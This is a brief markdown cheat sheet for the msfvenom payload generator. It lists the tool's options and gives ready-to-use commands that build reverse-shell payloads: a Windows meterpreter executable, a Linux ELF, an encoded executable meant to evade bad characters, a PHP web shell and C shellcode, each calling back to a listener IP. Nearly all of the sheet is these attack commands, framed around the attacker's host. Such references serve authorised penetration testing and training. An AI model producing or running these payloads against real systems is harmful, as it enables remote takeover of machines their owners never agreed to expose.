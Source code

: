```yaml
---
## 📌 Basic Syntax

---
```


## 🧰 Common Options

| Option | Description |
|--------|-------------|
| `-p` | Specify the payload (e.g., windows/meterpreter/reverse_tcp) |
| `LHOST` | Local host IP (attacker's IP) |
| `LPORT` | Local port to listen on |
| `-f` | Output format (e.g., exe, elf, raw, c, python) |
| `-o` | Output file |
| `-e` | Encoder (e.g., x86/shikata_ga_nai) |
| `-b` | Bad characters to avoid (e.g., `\x00\x0a`) |
| `-a` | Architecture (e.g., x86, x64) |
| `--platform` | Target OS (e.g., Windows, Linux) |
| `-i` | Number of encoding iterations |

---

## 🚀 Payload Examples

### 1. **Windows Reverse Shell**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell.exe
```

## Linux Reverse Shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf -o shell.elf
```

## Encoded Payload (Avoiding Bad Chars)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 3 -b "\x00\x0a" -f exe -o encoded_shell.exe
```

## Payload for Web Delivery (PHP)
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.php
```

## Output Formats

|Format|Description|
|---|---|
|exe|Windows Executable|
|elf|Linux Executable|
|asp|ASP Script|
|aspx|ASP.NET Script|
|php|PHP Script|
|raw|Raw Shellcode|
|c|C Source Code|
|python|Python Script|
|js|JavaScript|

## Shellcode Generation (C Example)

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c
```

## List Available Payloads
```
msfvenom -h
```












